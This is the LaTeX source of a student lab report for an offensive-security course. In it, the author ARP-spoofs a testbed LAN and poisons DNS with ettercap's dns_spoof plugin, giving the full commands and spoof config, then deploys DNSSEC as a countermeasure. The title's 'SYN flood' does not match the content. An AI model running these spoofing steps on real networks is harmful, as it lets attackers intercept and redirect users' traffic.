\documentclass[a4paper,11pt,hidelinks]{article}
%\usepackage[a-1b]{pdfx}
\usepackage{hyperref}

\usepackage{subfiles}
\usepackage{epsfig}
\usepackage{plain}
\usepackage{setspace}
%\usepackage{minted}
\usepackage{listings}

\usepackage{mdframed}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathabx}
\usepackage{tcolorbox}
\usepackage{multicol}
\usepackage[english]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=1.8cm]{geometry}
\usepackage{titlesec} 
\usepackage[utf8x]{inputenc} 

\hypersetup{colorlinks=true,urlcolor=blue}

\newtheorem{theorem}{Question}[subsection]
\renewcommand*{\proofname}{Answer}
\addto\captionsenglish{\renewcommand\proofname{Answer}}

\captionsetup{
  justification=centering,
  singlelinecheck=false,
  font=small,labelfont=bf,labelsep=space}

\begin{document}

\pagestyle{plain}

\begingroup

\renewcommand{\cleardoublepage}{}
\renewcommand{\clearpage}{}

\titleformat{\section}
{\normalfont\Large\bfseries}{\thesection}{1em}{}


\renewcommand{\lstlistingname}{Code}%
\renewcommand{\lstlistlistingname}{List of \lstlistingname s}

\definecolor{codeBackground}{rgb}{0.9, 0.9, 0.9}

% Code environment
\lstnewenvironment{code}[1]{
    \mdframed[%
        backgroundcolor=codeBackground,
        shadow=false,
        linecolor=black!40,
        linewidth=2pt,
        topline=false,
        rightline=false,
        leftline=false
    ]%
    \lstset{%
        moredelim=**[is][\color{blue}]{**}{**},
        moredelim=**[is][\color{teal}]{.-}{-.},
        moredelim=**[is][\color{gray}]{||}{||},
        frame=single,
        framerule=0pt,
        basicstyle=\ttfamily,
        keepspaces=true,
        fontadjust=true,
        basewidth=0.5em
    }%
}{% Spacing between and after caption + before end of mdframed
    \vspace{-1em}
    \endmdframed
    \vspace{-0.5em}
    \captionsetup{type=lstlisting}
    \caption{#1}
    \vspace{1.5em}
    \ignorespaces
}

\newpage

\title{SYN flood exercise}
\author{Offensive Technologies 2021 \\
    Matteo Franzil \texttt{<matteo.franzil@studenti.unitn.it>}}

\maketitle
\tableofcontents
\newpage

\section{Solution}

\subsection{Topology}

This photo shows the configuration of the nodes.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=\textwidth]{../drawable/network.png}
    \caption{Network setup for the exercise.}
\end{figure}

\clearpage
\newpage

\subsection{Part 1: Understanding DNS}

Login to the client machine and do \verb=dig www.google.com A=.

\begin{code}{Code of the dig output.}
; <<>> DiG 9.11.3-1ubuntu1.13-Ubuntu <<>> www.google.com A
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 11633
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 16e194aefa0d9be317d569bc617e46a9c7f30382f52c87d1 (good)
;; QUESTION SECTION:
;www.google.com.			IN	A

;; ANSWER SECTION:
www.google.com.		10	IN	A	10.1.2.155

;; AUTHORITY SECTION:
google.com.		604800	IN	NS	ns.google.com.

;; ADDITIONAL SECTION:
ns.google.com.		10	IN	A	10.1.2.3

;; Query time: 9 msec
;; SERVER: 10.1.1.3#53(10.1.1.3)
;; WHEN: Sun Oct 31 00:32:57 PDT 2021
;; MSG SIZE  rcvd: 120
\end{code}

\begin{theorem}
    The dig command sent a DNS query to some DNS server and received a response from that server. What is the IP address that server?
\end{theorem}

\begin{proof}
    We can see the IP server in the last block of the response. The server is \verb=10.1.1.3=. This means we're visiting our local cache.
\end{proof}

\begin{theorem}
    The DNS response includes a status. What was the status of the response?
\end{theorem}

\begin{proof}
    The response code is \verb=NOERROR=. This is a common response code for DNS that indicates that evertything went through. For example, if we queried a non-existant domain name, we would get a \verb=NXDOMAIN= status code, which indicates no information is available on the DNS system about that query.
\end{proof}

\begin{theorem}
    The response identified the IP address of www.google.com. What is the reported IP address of www.google.com?
\end{theorem}

\begin{proof}
    The DNS cache points the domain to \verb=10.1.2.155=. We can see it in the \verb=ANSWER= section.
\end{proof}

\begin{theorem}
    How long will the www.google.com IPv4 address be cached?
\end{theorem}

\begin{proof}
    Again in the \verb=ANSWER= section, the defined \verb=TTL= is defined as 10 seconds.
\end{proof}

\begin{theorem}
    The response listed the nameserver that is authoritative for www.google.com. What is the authoritative name server for google.com?
\end{theorem}

\begin{proof}
    The \verb=AUTHORITY= section tells us that the authoritative name server is \verb=ns.google.com=.
\end{proof}

\begin{theorem}
    Finally, the response listed the IPv4 address for the google.com nameserver. For each such server what is its IPv4 address?
\end{theorem}

\begin{proof}
    The \verb=ADDITIONAL= section tells us that this IP is \verb=10.1.2.3=.
\end{proof}

\clearpage
\newpage
\subsection{Part 2: The Big Picture}

Before doing any ARP spoofing, we want to understand the network topology. Use the DETER Visualization tab to show the network and use \verb=arp= and \verb=ifconfig= commands to detect MAC and IP addresses for each machine.

\begin{table}[h!]
    \centering
    \begin{tabular}{|l|l|l|}
        \hline
        Machine                 & MAC address             & IP address                                        \\ \hline
        \verb=client= & \verb=00:11:43:d5:f4:c2= & \verb=10.1.1.2/24= (\verb=eth3=) \\ \hline
        \verb=cache= & \verb=00:04:23:ae:d0:48= & \verb=10.1.1.3/24= (\verb=eth1=) \\
                        & \verb=00:04:23:ae:d0:49= & \verb=10.1.2.2/24= (\verb=eth2=) \\ \hline
        \verb=auth= & \verb=00:04:23:ae:d0:3e= & \verb=10.1.2.3/24= (\verb=eth2=) \\ \hline
        \verb=attacker= & \verb=00:11:43:d5:f5:72= & \verb=10.1.2.4/24= (\verb=eth0=) \\ \hline
    \end{tabular}
\end{table}

The \verb=attacker=, \verb=auth= and \verb=cache= machines share a LAN segment with a common subnet.

\begin{theorem}
    State the source MAC and IP addresses as well as destination MAC and IP addresses for a packet going from the client to the cache.
\end{theorem}

\begin{proof}
    By consulting the table above and doing an \verb=arp= query on the \verb=client= machine, we can see that the packets will go from \verb=00:11:43:d5:f4:c2=@\verb=10.1.1.2/24= to \verb=00:04:23:ae:d0:48=@\verb=10.1.1.3/24=.
\end{proof}

\begin{theorem}
    Does the packet travel through the attacker box?
\end{theorem}

\begin{proof}
    No, it does not. The \verb=attacker= box is not on the same LAN segment as the \verb=client= and \verb=cache=. A \verb=traceroute= confirms us that the \verb=cache= is just one hop away.
\end{proof}

\begin{theorem}
    State the source MAC and IP addresses as well as destination MAC and IP addresses for a packet going from the cache to the authoritative server
\end{theorem}

\begin{proof}
    The packets start from the external \verb=cache= interface (\verb=00:04:23:ae:d0:49=@\verb=10.1.2.2/24=), then get routed through \verb=lan0= and end up at \verb=auth= (\verb=00:04:23:ae:d0:3e=@\verb=10.1.2.3/24=). Tracerouting a packet confirms this assumptions.
\end{proof}

\begin{theorem}
    Does the packet travel through the attacker box?
\end{theorem}

\begin{proof}
    With this situation, it does not. The packets get sent directly to the authoritative server.
\end{proof}

\clearpage
\newpage
\subsection{Part 3: Using Ettercap}
Login to the \verb=attacker= machine. 

Using ettercap, your objective is to get the DNS query for \verb=www.google.com= to pass through the \verb=attacker=. Once you've accomplished this and confirmed that the desired traffic is now passing through the attacker, record each command you used and what each option in the command means.

\begin{code}{Code used for perpetrating the DNS cache poisoning attack:}
**# ettercap --text --iface eth0 --nosslmitm --nopromisc **
    **--only-mitm --mitm arp /10.1.2.2/// /10.1.2.3///**
\end{code}

\begin{theorem}
    State the source MAC and IP addresses as well as destination MAC and IP addresses for a packet going from the cache to the authoritative server.
\end{theorem}

\begin{proof}
    This is the code of the output.

\begin{code}{Code of the output on cache.}
**$ arp**
Address                  HWtype  HWaddress         
||[truncated output]||
attacker-lan0            ether   00:0e:0c:68:a7:11
auth-lan0                ether   00:0e:0c:68:a7:11

**$ traceroute auth**
traceroute to auth (10.1.2.3), 30 hops max, 60 byte packets
 1  attacker-lan0 (10.1.2.4)  0.443 ms  0.397 ms  0.350 ms
 2  auth-lan0 (10.1.2.3)  0.477 ms  0.434 ms  0.584 ms
\end{code}

    The source IP and MAC of the \verb=cache= stays the same as before, being the \verb=lan0= one (\verb=00:04:23:= \verb=ae:d0:49=@\verb=10.1.2.2/24=).
\end{proof}

\begin{theorem}
    Does the packet travel through the attacker box? If your answers to the previous and this differ, explain why.
\end{theorem}

\begin{proof}
    Now it does. The aforegiven output is self-explanatory: from the \verb=cache= standpoint, the \verb=attacker= is pretending to be the \verb=auth= server in the LAN and tracerouting now shows that packets go through him. 
\end{proof}

Now that you can ARP spoof on the network, your goal is to actually filter DNS messages returning to the end-user and replace the IP for \verb=www.google.com.= with an IP of your choosing (say the attacker: \verb=10.1.2.4=). You must use a plug-in built into ettercap called \verb=dns_spoof=.  You find the syntax for using a plug-in via the ettercap man page, and the config file for \verb=dns_spoof= (located at \verb=/etc/ettercap/etter.dns=) is self-explanatory.

\begin{theorem}
    Record the complete command (or steps in the GUI) used to have ettercap forge a DNS message and any necessary configuration files.
\end{theorem}

\begin{proof}
I opened the \verb=/etc/ettercap/etter.dns= and added the following:

\begin{code}{Added code in the DNS configuration.}
    *.google.com A 10.1.2.4
    google.com A 10.1.2.4
    www.google.com PTR 10.1.2.4
\end{code}

Then, I re-started ettercap with this setup:

\begin{code}{Ettercap command.}
**# ettercap --plugin dns_spoof --text --iface eth0 **
**              --nosslmitm --nopromisc --mitm arp /10.1.2.2/// /10.1.2.3///**
\end{code}

On the cache machine, we can do \verb=sudo arp -d auth-lan0= to invalidate the ARP cache. Finally:

\begin{code}{Code of the dig output.}
**$ dig www.google.com A**
; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> www.google.com A
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45851
;; flags: qr aa; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.google.com.			IN	A

;; ANSWER SECTION:
www.google.com.		3600	IN	A	10.1.2.4

;; Query time: 2 msec
;; SERVER: 10.1.2.3#53(10.1.2.3)
;; WHEN: Sun Oct 31 02:01:56 PDT 2021
;; MSG SIZE  rcvd: 48
\end{code}

We can see that the obtained IP is the \verb=attacker= one, so the attack worked.
\end{proof}

\begin{theorem}
    What malicious things could an attacker do by changing the IP address in a DNS response going to the client?
\end{theorem}

\begin{proof}
    An attacker could change the IP address to a compromised machine, controlled by the attacker. At this point, the attacker can do literally anything (estabilish a TLS connection with the client, read the client's data, forge traffic) while the client would be unconscious of his traffic being redirected to a compromised machine.
\end{proof}

\clearpage
\newpage
\subsection{Part 4: Implementing DNSSEC}

The final task to prevent this type of attack by cryptographically signing the DNS data. Login to \verb=auth= and use \verb=dnssec-keygen= and \verb=dnssec-signzone= in \verb=/etc/bind= directory to sign \verb=google.com= zone. You must also add some options for \verb=dnssec= to \verb=/etc/bind/named.conf.options= and you must replace \verb=google.com= with \verb=google.com.signed= in \verb=/etc/bind/named.conf.local=. Then restart \verb=bind= and try on the \verb=auth= machine: \verb=dig +dnssec www.google.com A=. You should get a signed response.

On the cache machine, you must add the public zone signing key (ZSK) to the list of trust-anchors for the cache. You must also add lines to \verb=/etc/bind/named.conf.options= that tell it to use dnssec. Then restart \verb=bind= on cache and run \verb=dig +dnssec www.google.com A=. You should get a signed response.

Finally, return to the client machine and use the command \verb=dig +dnssec www.google.com A= to lookup the IPv4 address for www.google.com.

\begin{theorem}
    Provide the signed response obtained on the client machine. Also, do provide detailed description of all the steps you took to implement DNSSEC. Make sure to list all commands you typed and all configuration changes you made. A properly DNSSEC verified dig will include an "ad" bit which shows up in the tag field of dig output.
\end{theorem}

\begin{proof}
    First, we generate keys for both the ZSK and KSK.
    
\begin{code}{Key generation.}
**# dnssec-keygen -r /dev/urandom -a RSASHA256 -b 2048 -n ZONE google.com**
||# Generated file: Kgoogle.com.+008+24630||
**# dnssec-keygen -r /dev/urandom -f KSK**
**                -a RSASHA256 -b 2048 -n ZONE google.com**
||# Generated file: Kgoogle.com.+008+25105||
\end{code}

    We edit the zone by adding the newly created keys. Then, we sign the zone and edit the \verb=local= file.

\begin{code}{Zone signing.}
**$ vi google.com**
||# Add these (and remember to update the version):||
||; Keys to be published in DNSKEY RRset||
||$INCLUDE "/etc/bind/Kgoogle.com.+008+24630.key"     ; ZSK||
||$INCLUDE "/etc/bind/Kgoogle.com.+008+25105.key"     ; KSK||
**# dnssec-signzone -x -o google.com google.com**
Verifying the zone using the following algorithms: RSASHA256.
Zone fully signed:
Algorithm: RSASHA256: KSKs: 1 active, 0 stand-by, 0 revoked
                      ZSKs: 1 active, 0 present, 0 revoked
google.com.signed
**$ vi named.conf.local**
||# change "/etc/bind/google.com" to "/etc/bind/google.com.signed"||
**$ vi named.conf.options**
||# Add:||
||dnssec-enable yes;||
||dnssec-validation yes;||
||dnssec-lookaside auto;||
**# rndc reconfig**
\end{code}

We can verify the output by running a dig locally.

\begin{code}{Verifiying output locally.}
**$ dig +dnssec www.google.com A**
; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> +dnssec www.google.com A
||[truncated output]||
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 2, ADDITIONAL: 3
||[truncated output]||
;; ANSWER SECTION:
www.google.com.		10	IN	A	10.1.2.155
www.google.com.		10	IN	RRSIG	A 8 3 10
                    20211130090123 20211031090123
                    24630 google.com. tKjwN0HERpDadqBAAmPVQKNLhn/o3bKF32Oc
                    VZuQijnZBCwFXOl3ppfr Vk7rpHq3kt20CUFBLb9QBkwiCCSdZAGMM
                    OFwQXp4vtSyBZJZU8uAo8HS EEmZSLK2Rhjd12FlskicBK07zrjYix
                    w0KrE5he/AL8VwqE/sAlHeyP9f BmpN3+fd7D01w2WNwH5X0AswlWs
                    U/owhVj0IKgy/oUyWn3kOiE7UHl/8 Vo143fJ7Aep/5xU8DIVJmnsR
                    5Ls7zwKaLAxrc48McF9lM8lthVhr+2FW oYT9Q45EDcXIOawzzrvMi
                    /9D3PllKPLC6Dz/8huMv1yCxM5XJAwlphpi 3Tn/zA==
||[truncated output]||
\end{code}

We now login to the \verb=cache= machine and add the public zone signing key (ZSK) to the list of trust-anchors for the cache.

\begin{code}{Adding trust-anchors: obtaining keys.}
**$ dig . dnskey | grep "257 "**
.			170447	IN	DNSKEY	257 3 8
                    AwEAAaz/tAm8yTn4Mfeh5eyI96WSVexTBAvkMgJzkKTOiW1vkIbzxeF3
                    +/4RgWOq7HrxRixHlFlExOLAJr5emLvN7SWXgnLh4+B5xQlNVz8Og8kv
                    ArMtNROxVQuCaSnIDdD5LKyWbRd2n9WGe2R8PzgCmr3EgVLrjyBxWezF
                    0jLHwVN8efS3rCj/EWgvIWgb9tarpVUDK/b58Da+sqqls3eNbuv7pr+e
                    oZG+SrDK6nWeL3c6H5Apxz7LjVc1uTIdsIXxuOLYA4/ilBmSVIzuDWfd
                    RUfhHdY6+cn8HFRm+2hM8AnXGXws9555KrUB5qihylGa8subX2Nn6UwN
                    R1AkUTV74bU=

**# dig google.com dnskey**
||[truncated output]||
google.com.		604800	IN	DNSKEY	257 3 8
                    AwEAAaiXr5bRdlfVOG09N5/aXstSLv4hUh3HNLKFvO/Gva/cfz6QW84c
                    k6Jj0gi2Ou/LCJRLS3W5BipSkhSDnT/+gFJ20UiltpdglVhn972QsQFz
                    9j6SAFJ5V1QVm2V9vFPjZ30/io264QTGVUj6D9+zDggaMlEAkUp0zBCU
                    1Xvw7zq4cb5VIrqaG4TbNRFFjF35Lf16SjTMXMZ2iHgu9xvUJjwJpG0L
                    0WOWnf3s7dIwdGzmJd4c/SC/TvRqcgHCBywnfWN298Fg82Kfsz4Ak/bX
                    dBVnYBlYqSlSw8aixf36/51WOZLlGyD8iOQ5Rhqocvda8XGoIv3G0Imd
                    BL9Y6H8Q56U=
google.com.		604800	IN	DNSKEY	256 3 8
                    AwEAAbbZG2s63exlvFCXE//mhDV+kmt1C5lllCpLrzNsyKtVqnPyRyJj
                    i5WxpmcoZ9TZ4nJP8a0pweT08S98WSuj8U7A5BewTuWWfMEqPsK+kVXv
                    spgwXrRJjkKLCUSQrODBPzUNdifw3BdJDXNjL+In5Z/T3eR8UW/h7R/4
                    39ONrLumZhEmOE7vNuQVeoPWthEEYU42lh6BNVDU3E5T+G5LB/4IqSLT
                    afir9keuMElmls5uBP6spDPblLw9KzEoJYfACXfaVtnMk6s5Fe4zvXjb
                    uNp8qtGHqFbRxLauprz1rW6vh2k2uMUxyDmLahk6F6sXydD1IjhXHf++
                    Xv4LdCI/gPc=
||[truncated output]||
\end{code}

We transform these keys into a \verb=managed-keys= file that we add to \verb=named.conf=.

\begin{code}{managed-keys file.}
managed-keys {
google.com. initial-key 257 3 8 "AwEAAaiXr5bRdlfVOG09N5/aXstSLv4hUh3HNLKFvO/
                                Gva/cfz6QW84ck6Jj0gi2Ou/LCJRLS3W5BipSkhSDnT/
                                +gFJ20UiltpdglVhn972QsQFz9j6SAFJ5V1QVm2V9vFP
                                jZ30/io264QTGVUj6D9+zDggaMlEAkUp0zBCU1Xvw7zq
                                4cb5VIrqaG4TbNRFFjF35Lf16SjTMXMZ2iHgu9xvUJjw
                                JpG0L0WOWnf3s7dIwdGzmJd4c/SC/TvRqcgHCBywnfWN
                                298Fg82Kfsz4Ak/bXdBVnYBlYqSlSw8aixf36/51WOZL
                                lGyD8iOQ5Rhqocvda8XGoIv3G0ImdBL9Y6H8Q56U=";
google.com. initial-key 256 3 8 "AwEAAbbZG2s63exlvFCXE//mhDV+kmt1C5lllCpLrzN
                                syKtVqnPyRyJji5WxpmcoZ9TZ4nJP8a0pweT08S98WSu
                                j8U7A5BewTuWWfMEqPsK+kVXvspgwXrRJjkKLCUSQrOD
                                BPzUNdifw3BdJDXNjL+In5Z/T3eR8UW/h7R/439ONrLu
                                mZhEmOE7vNuQVeoPWthEEYU42lh6BNVDU3E5T+G5LB/4
                                IqSLTafir9keuMElmls5uBP6spDPblLw9KzEoJYfACXf
                                aVtnMk6s5Fe4zvXjbuNp8qtGHqFbRxLauprz1rW6vh2k
                                2uMUxyDmLahk6F6sXydD1IjhXHf++Xv4LdCI/gPc=";
. initial-key 257 3 8 "AwEAAaz/tAm8yTn4Mfeh5eyI96WSVexTBAvkMgJzkKTOiW1vkIbzx
                       eF3+/4RgWOq7HrxRixHlFlExOLAJr5emLvN7SWXgnLh4+B5xQlNVz
                       8Og8kvArMtNROxVQuCaSnIDdD5LKyWbRd2n9WGe2R8PzgCmr3EgVL
                       rjyBxWezF0jLHwVN8efS3rCj/EWgvIWgb9tarpVUDK/b58Da+sqql
                       s3eNbuv7pr+eoZG+SrDK6nWeL3c6H5Apxz7LjVc1uTIdsIXxuOLYA
                       4/ilBmSVIzuDWfdRUfhHdY6+cn8HFRm+2hM8AnXGXws9555KrUB5q
                       ihylGa8subX2Nn6UwNR1AkUTV74bU="
};
\end{code}

This is trivial by just adding \verb=include "/etc/bind/managed-keys";= to it.

Then, we copy the keys from the auth to the cache server by abusing the fact that the home folder is shared. This allows us to first copy on the \verb=auth= server the ZSK to \verb=/home/otech2af/=, then the opposite on the \verb=cache= server. Finally:

\begin{code}{On the client.}
**$ dig +dnssec www.google.com A**
; <<>> DiG 9.11.3-1ubuntu1.13-Ubuntu <<>> +dnssec www.google.com A
||[truncated output]||
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 2, AUTHORITY: 2, ADDITIONAL: 1
||[truncated output]||
www.google.com.		10	IN	A	10.1.2.155
www.google.com.		10	IN	RRSIG	A 8 3 10
                        20211130090123 20211031090123 24630 google.com.
                        tKjwN0HERpDadqBAAmPVQKNLhn/o3bKF32OcVZuQijnZBCwFXOl3ppfr
                        Vk7rpHq3kt20CUFBLb9QBkwiCCSdZAGMMOFwQXp4vtSyBZJZU8uAo8HS
                        EEmZSLK2Rhjd12FlskicBK07zrjYixw0KrE5he/AL8VwqE/sAlHeyP9f
                        BmpN3+fd7D01w2WNwH5X0AswlWsU/owhVj0IKgy/oUyWn3kOiE7UHl/8
                        Vo143fJ7Aep/5xU8DIVJmnsR5Ls7zwKaLAxrc48McF9lM8lthVhr+2FW
                        oYT9Q45EDcXIOawzzrvMi/9D3PllKPLC6Dz/8huMv1yCxM5XJAwlphpi
                        3Tn/zA==
;; AUTHORITY SECTION:
google.com.		604800	IN	NS	ns.google.com.
google.com.		604800	IN	RRSIG	NS 8 2
                        604800 20211130090123 20211031090123 24630 google.com.
                        SQ7a1WlzzMuM9+Eu33mK5LguCHu9G866OcLeSEDMnvhNZP/JIczOyaXh
                        MTvUIP5V2o5yBq5C4jenhRhJPLZ01y7nsGD9FfCphRN/sHIcFRzvE9jc
                        eSsz5f9/rIHXkxyE3ZuliAR5HGbxTXy2bCQgSCzdZyWrzMTRfYL00Bjl
                        thHwBx5JWn6ze5xLgXiyYta4UoK8EYRwocMzcG+7gwdPlbzHXcvZ1WZi
                        CXPxl7La28PRRr9A0Qn1xBM2SCsIyLbeKoZnH2peKgohlsfCuLPsUKOE
                        UPM/VvotRd52acUIl+llMkdPT38uJuaGA8+Ql6UTjhCiWEZDC4b7N1YT
                        t0jbmQ==
;; Query time: 12 msec
;; SERVER: 10.1.1.3#53(10.1.1.3)
;; WHEN: Sun Oct 31 03:59:05 PDT 2021
;; MSG SIZE  rcvd: 700
\end{code}

We can verify that with the \verb=ad= flag set, our queries are verified.
\end{proof}

\begin{theorem}
    State the source MAC and IP addresses as well as destination MAC and IP addresses for a packet going from the cache to the authoritative server. Does the packet travel through the attacker box? If your answers differ from the setup without DNSSEC, explain why.
\end{theorem}

\begin{proof}
    Even with DNSSEC active, our queries are still being routed through the attacker. This time, \verb=ettercap= is no longer able to successfully implant an IP and the queries, due to the keys, are being verified. Since all traffic is still being read by the attacker, it does not prevent him from doing other malicious things with non-authenticated traffic.
\end{proof}

\endgroup
\end{document}